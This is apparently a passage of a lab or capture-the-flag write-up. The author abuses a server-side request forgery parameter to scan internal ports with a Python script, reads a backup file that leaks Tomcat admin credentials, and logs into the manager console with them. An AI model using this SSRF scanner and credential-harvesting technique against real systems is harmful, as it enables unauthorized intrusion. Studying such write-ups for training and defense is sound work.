 I tried loading a website that was hosted on the target box and received a 200 response.

![image](https://user-images.githubusercontent.com/10210108/82160947-d40e1400-9866-11ea-8b7a-18c6764ce647.png)

In order to see what else was listening on internal ports I wrote a quick python script that uses the requests module to check if the host is listening on a range of ports, in this case I specified them all: 1 - 65535. I was able to determine if a port was listening by looking at the length of the response and print that to the screen.

```python
import requests

url = "http://10.10.10.55:60000/url.php?path=localhost:"

for x in range(1, 65535):
    r = requests.get(url+str(x))
    length = (len(r.text))
    if length > 2:
        print("[*] Response received on port: " +str(x))
```

The script showed that ports 22,90,110,200,320,888,3306, and 8080 were open. The script hadn't finished yet but it was going to take quite a while so I just let it run and pushed forward.

![image](https://user-images.githubusercontent.com/10210108/82164096-f14ddd00-987c-11ea-9bae-fde9edf4458f.png)

Browsing through the results of the website scan I came across localhost:888 which was a simple file viewer page

![image](https://user-images.githubusercontent.com/10210108/82164576-4db1fc00-987f-11ea-8381-1b85649b7f22.png)

I clicked on the backup link but the page was blank. I realized that it wasn't including localhost:888 after being redirected so I updated it to changed the URL to view the backup file and added ?doc=backup. Viewing thes source shows a username and password

```
http://10.10.10.55:60000/url.php?path=localhost:888?doc=backup
```

![image](https://user-images.githubusercontent.com/10210108/82164652-a6819480-987f-11ea-8184-64a08bd8c64f.png)

```
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
    <user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
```

Now that I had a username and password, I went back to http://10.10.10.55:8080/manager/html and tried **admin:3@g01PdhB!** and it worked.
